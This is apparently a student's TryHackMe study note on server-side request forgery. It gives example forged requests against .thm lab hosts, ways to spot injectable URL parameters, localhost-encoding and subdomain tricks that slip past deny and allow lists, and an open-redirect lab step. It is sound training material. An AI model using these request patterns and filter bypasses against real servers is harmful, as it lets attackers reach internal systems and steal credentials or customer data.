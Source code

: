 
# SSRF 

SSRF stands for _Server-Side Request Forgery_. It's a vulnerability that allows a malicious user to cause the webserver to make an additional or edited HTTP request to the resource of the attacker's choosing.

2 types 
- regular SSRF where data is returned to the attacker's screen
-  Blind SSRF vulnerability where an SSRF occurs, but no information is returned to the attacker's screen

### Impact 
- unauth access
- access to customer/ org data
- scale to internal networks
- reveal auth tokens/ credentials 



1. hacker request: `http:/api.website.thm/stock?url=` + `http:/api.website.thm/api/user`
2. website request: `http:/api.website.thm/api/user`
3. API server returns user data to website instead of stock info
4. website returns user data to hacker

---

1. hacker request: `http:/api.website.thm/stock?url=` + `/../user`
2. website request: `http:/api.website.thm/stock/../user`
3. API server returns user data not stock info
4. website returns user data to hacker

---

1. hacker request: `http:/api.website.thm/stock?server=` + `api.website.thm/api/user&x=&id=123`
2. website request: `http:/api.website.thm/api/user?x=.website.thm/api/stock/item?id=123`
3. API server returns user data not stock info
4. website returns user data to hacker

---

1. hacker request: `http:/api.website.thm/stock?url=` + `http:/hacker-domain.thm`
2. website request: `http:/api.website.thm/api/user`  breaks request
3. APU server does not return user data to website
4. website request: data from `hacker-domain.thm` is used revealing API key

&x=


## FINDING SSRF

- full url:  website.thm/form?server=http:/server.website.thm/store

- hidden in HTML form
```
<form>
  <input type="hidden" name='sever' value='http:/server.website.thm/store'>
</form>
```

- partial url:  website.thm/form?server=api
- path of url:  website.thm/form?dst=/forms/contact
- 





## DEFENCE FOR SSRF

- deny list  
- approve list


A Deny List is where all requests are accepted apart from resources specified in a list or matching a particular pattern

Attackers can bypass a Deny List by using alternative localhost references such as 0, 0.0.0.0, 0000, 127.1, `127.*.*.*`, 2130706433, 017700000001 or subdomains that have a DNS record which resolves to the IP Address 127.0.0.1 such as 127.0.0.1.nip.io.



An allow list is where all requests get denied unless they appear on a list or match a particular pattern

- parameter must begin with https:/website.thm.

attacker could quickly circumvent this rule by creating a subdomain on an attacker's domain name, such as https:/website.thm.attackers-domain.thm. The application logic would now allow this input and let an attacker control the internal HTTP request.



## Open Redirect

If the above bypasses do not work, there is one more trick up the attacker's sleeve, the open redirect.

An open redirect is an endpoint on the server where the website visitor gets automatically redirected to another website address


- https:/website.thm/link?url=https:/tryhackme.com

- `/private  => error message`

```
https:/x.x.x.x.p.thmlabs.com 
/customers/new-account-page   allows for avatars 

click on avatar, right click inspect source
change input value to "private" , update avatar => errors
change input value to "x/../private", update avatar , no errors


https:/x.x.x.x.p.thmlabs.com/customers/new-account-page?success=/private
```


















